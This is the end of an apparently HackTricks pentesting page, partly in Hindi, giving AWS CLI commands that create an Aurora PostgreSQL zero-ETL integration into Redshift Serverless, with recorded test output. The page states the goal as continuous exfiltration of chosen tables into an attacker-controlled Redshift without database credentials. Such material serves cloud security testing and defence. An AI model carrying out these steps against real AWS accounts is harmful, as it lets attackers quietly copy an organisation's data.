aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--serverless-v2-scaling-configuration MinCapacity=0.5,MaxCapacity=1 --apply-immediately
aws rds create-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1 \
--db-instance-class db.serverless --engine aurora-postgresql --db-cluster-identifier $CLUSTER_ID
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
# Cluster parameter group for zero‑ETL
aws rds create-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg \
--db-parameter-group-family aurora-postgresql16 --description "APG16 zero-ETL params"
aws rds modify-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg --parameters \
ParameterName=rds.logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.enhanced_logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_backup,ParameterValue=0,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_globaldb,ParameterValue=0,ApplyMethod=pending-reboot
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--db-cluster-parameter-group-name apg16-ztl-zerodg --apply-immediately
aws rds reboot-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
SRC_ARN=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID --query 'DBClusters[0].DBClusterArn' --output text)
```
</details>

<details>
<summary>4) RDS से zero‑ETL इंटीग्रेशन बनाएं</summary>
```bash
# Include all tables in the default 'postgres' database
aws rds create-integration --region $REGION --source-arn "$SRC_ARN" \
--target-arn "$RS_NS_ARN" --integration-name ztl-demo \
--data-filter 'include: postgres.*.*'
# Redshift inbound integration should become ACTIVE
aws redshift describe-inbound-integrations --region $REGION --target-arn "$RS_NS_ARN"
```
</details>

<details>
<summary>5) Redshift में प्रतिकृत डेटा को materialize और query करें</summary>
```bash
# Create a Redshift database from the inbound integration (use integration_id from SVV_INTEGRATION)
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "select integration_id from svv_integration"  # take the GUID value
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "create database ztl_db from integration '<integration_id>' database postgres"
# List tables replicated
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database ztl_db \
--sql "select table_schema,table_name from information_schema.tables where table_schema not in ('pg_catalog','information_schema') order by 1,2 limit 20;"
```
</details>

परीक्षण में देखे गए प्रमाण:
- redshift describe-inbound-integrations: Status ACTIVE for Integration arn:...377a462b-...
- SVV_INTEGRATION ने integration_id 377a462b-c42c-4f08-937b-77fe75d98211 और state PendingDbConnectState दिखाया, DB creation से पहले।
- CREATE DATABASE FROM INTEGRATION के बाद, tables सूची करने पर schema ztl और table customers सामने आए; ztl.customers से select करने पर 2 rows (Alice, Bob) लौटे।

प्रभाव: हमलावर द्वारा नियंत्रित Redshift Serverless में चुनी गई Aurora PostgreSQL तालिकाओं का निरंतर near‑real‑time exfiltration, बिना database credentials, backups, या source cluster तक network access का उपयोग किए।

{{#include ../../../../banners/hacktricks-training.md}}
